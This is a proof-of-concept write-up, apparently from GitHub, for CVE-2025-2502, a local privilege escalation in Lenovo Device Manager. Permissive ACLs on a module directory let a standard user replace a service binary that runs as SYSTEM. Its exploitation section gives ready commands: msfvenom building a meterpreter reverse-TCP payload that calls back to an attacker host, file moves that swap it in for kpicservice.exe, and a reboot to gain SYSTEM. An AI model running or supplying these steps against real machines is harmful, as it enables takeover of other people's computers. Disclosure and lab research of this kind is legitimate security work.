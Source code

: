 # CVE-2025-2502 — Lenovo Device Manager: Local Privilege Escalation (POC)

## Vulnerability Overview

While studying local privilege escalation techniques in a Windows lab, I installed Lenovo Device Manager to inspect its installed components. Browsing the ProgramData modules out of curiosity, I noticed oddly permissive ACLs on the module directories — files downloaded by the application were writable by standard users.

That raised a red flag: if a service binary stored in such a directory runs as LocalSystem, and a non-privileged user can alter the file content, a simple replace-and-reboot could make the service execute attacker-controlled code as SYSTEM.

## TL;DR

A permissions flaw in Lenovo Device Manager (all versions observed) grants non-privileged users **F (Full) control** over downloaded tool binaries under `C:\ProgramData\Lenovo\devicecenter\modules\…`. A privileged service (`KPICService_Lenovo`) loads one such binary as LocalSystem; because an unprivileged user can replace that binary on disk, the service will start the replaced binary as SYSTEM after a reboot — enabling local privilege escalation.

![Vulnerability Overview](https://github.com/user-attachments/assets/b93b76b1-f2f2-436f-a5dd-72f4248600af)

## Lab Setup & Reproduction

### 1. Setup Lab Environment

- Host a Windows VM and take a snapshot
- Install Lenovo Device Manager and the AI Picture plugin (vulnerable version)
- Ensure the VM is isolated from production networks

![Lab Setup](https://github.com/user-attachments/assets/9fcdeeaf-3600-4dc7-b646-6e7e8bc78c5a)

### 2. Confirm Service & Permissions

Inspect the service configuration and file permissions:

**Service Location:**

C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe


![Service Configuration](https://github.com/user-attachments/assets/ef41db4c-c148-4512-ad15-a8eb82d14427)

![File Permissions](https://github.com/user-attachments/assets/e33ef6fe-910d-48cc-beab-0f4d2f841f6e)

### 3. Validate Replace-on-Disk Scenario

With the system booted into a state where the service process is locked, confirm an unprivileged account can move or rename the original `kpicservice.exe` file.

## Practical Exploitation Steps

### Generate Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=4444 -f exe -o kpicservice.exe
```
# Move original file
```bash
move C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe kpicservice.exe.backup
```
# Replace with payload
```bash
move Desktop\kpicservice.exe C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe
```
### Trigger Exploitation
Reboot the device

The service automatically starts the replaced kpicservice.exe (payload)

Obtain SYSTEM privileges

https://github.com/user-attachments/assets/35d8f450-356e-47b0-b4dd-41f5bbe6d31b
